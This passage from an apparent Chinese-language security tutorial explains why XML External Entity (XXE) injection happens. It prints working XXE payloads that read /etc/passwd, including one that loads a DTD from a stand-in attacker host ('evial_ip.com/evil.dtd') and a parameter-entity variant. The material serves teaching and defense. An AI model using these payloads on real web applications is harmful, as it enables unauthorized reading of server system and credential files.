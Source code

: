 这是一个内部实体声明，因为实体的值已经被写在了XML语句中，它其实还支持外部实体声明，具体的实现方式为：

```plain
#<!ENTITY 实体名称 SYSTEM "URI">
<!ENTITY to SYSTEM "http://example.com/example.dtd">

```

这个功能就是我们今天所讲的XXE的罪魁祸首，攻击者就是通过DTD外部实体声明来实现外部实体注入的。

### XML外部实体注入的产生原因

如果Web应用存在外部实体注入问题，那么攻击者可以构建负载如下：

```plain
<!DOCTYPE a [
     <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>

```

如果页面解析了其中c标签的内容，并将它输出在Web页面上，那么攻击者就可以读取到隐私文件passwd里的内容，这是非常危险的。

当然攻击者也可以利用DTD文档引入外部DTD文档，然后再引入外部实体声明，这样需要的XML内容为：

```plain
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evial_ip.com/evil.dtd">
<c>&b;</c>

```

其中外部的evil.dtd文件的内容为：

```plain
<!ENTITY b SYSTEM "file:///etc/passwd">

```

这样也是可以实现输出隐私文件passwd的功能。除此之外，攻击者还可以通过DTD外部实体声明引入外部实体声明，这有点类似于套娃了，不过它也是一种可行的方式，让我们一起来看看吧。

```plain
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY % d SYSTEM "http://example.com/example.dtd">
    %d;
]>
<c>&b;</c>
#example.dtd的内容为
<!ENTITY b SYSTEM "file:///etc/passwd">

```

注意这里的%d，它是一个参数实体。Web应用在解析这个XML文件时，会首先将%d的值设置为example.dtd中的内容，然后调用%d，将example.dtd的运行结果赋予给b，并将它输出到标签<c>中。

以上内容就是XML外部实体注入的产生原因，下面我们一起来学习它有哪些危害吧。
